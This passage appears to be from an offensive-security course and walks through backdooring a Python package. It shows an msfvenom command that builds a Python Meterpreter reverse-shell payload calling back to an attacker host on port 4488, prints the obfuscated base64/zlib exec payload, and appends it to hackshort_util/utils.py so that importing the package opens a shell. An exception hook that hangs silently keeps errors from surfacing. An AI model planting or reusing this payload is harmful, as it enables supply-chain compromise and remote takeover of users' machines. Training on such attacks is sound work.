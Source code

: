 Let's start by using **msfvenom** to generate the payload. Since our package is a Python package, we'll specify that we want a meterpreter Python payload. We want the target to reach back out to us, so we'll use a reverse shell connection. All of this can be specified with the **-p** option. Since the payload will be Python and not a binary executable, we can specify that we want the output to be in a **raw** format using the **-f** option. Finally, we need to specify the IP address and port number that the payload will connect to. For this, we need something that all the victims can reach. The most accessible target we have is our cloud Kali instance so for **LHOST**, we'll specify the cloud kali IP. For **LPORT**, we'll specify an arbitrary port of 4488.

```
kali@kali:~$ msfvenom -f raw -p python/meterpreter/reverse_tcp LHOST=192.88.99.76 LPORT=4488
[-] No platform was selected, choosing Msf::Module::Platform::Python from the payload
[-] No arch selected, selecting arch: python from the payload
No encoder specified, outputting raw payload
Payload size: 436 bytes
exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNo9UE1LxDAQPTe/IrckGMPuUrvtYgURDyIiuHsTWdp01NI0KZmsVsX/7oYsXmZ4b968+ejHyflA0ekBgvw2fSvbBqHIJQZ/0EGGfgTy6jydaW+pb+wb8OVCbEgW/NcxZlinZpUSX8kT3j7e3O+3u6fb6wcRdUo7a0EHztmyWqmyVFWl1gWTeV6WIkpaD81AMpg1TCF6x+EKDcDELwQxddpJHezU6IGzqzsmUXnQHzwX4nnxQrr6hI0gn++9AWrA8k5cmqNdd/ZfPU+0IDCD5vFs1YF24+QBkacPqLbII9lBVMofhmyDv4L8AerjXyE=')[0])))
```

> Listing 21 - Generating Python Meterpreter Payload

Running this command provides us with the payload. Next, we'll need to add it to our package. Since we want a reverse shell at runtime, we'll add it at the end of **hackshort_util/utils.py**. As soon as the application imports this package, a reverse shell will be sent.

```
kali@kali:~/hackshort-util$ nano hackshort_util/utils.py

kali@kali:~/hackshort-util$ cat -n hackshort_util/utils.py
01  import time
02  import sys
03
04  def standardFunction():
05          pass
06
07  def __getattr__(name):
08          pass
09          return standardFunction
10
11  def catch_exception(exc_type, exc_value, tb):
12      while True:
13          time.sleep(1000)
14
15  sys.excepthook = catch_exception
16
17  exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNo9UE1LxDAQPTe/IrckGMPuUrvtYgURDyIiuHsTWdp01NI0KZmsVsX/7oYsXmZ4b968+ejHyflA0ekBgvw2fSvbBqHIJQZ/0EGGfgTy6jydaW+pb+wb8OVCbEgW/NcxZlinZpUSX8kT3j7e3O+3u6fb6wcRdUo7a0EHztmyWqmyVFWl1gWTeV6WIkpaD81AMpg1TCF6x+EKDcDELwQxddpJHezU6IGzqzsmUXnQHzwX4nnxQrr6hI0gn++9AWrA8k5cmqNdd/ZfPU+0IDCD5vFs1YF24+QBkacPqLbII9lBVMofhmyDv4L8AerjXyE=')[0])))
```
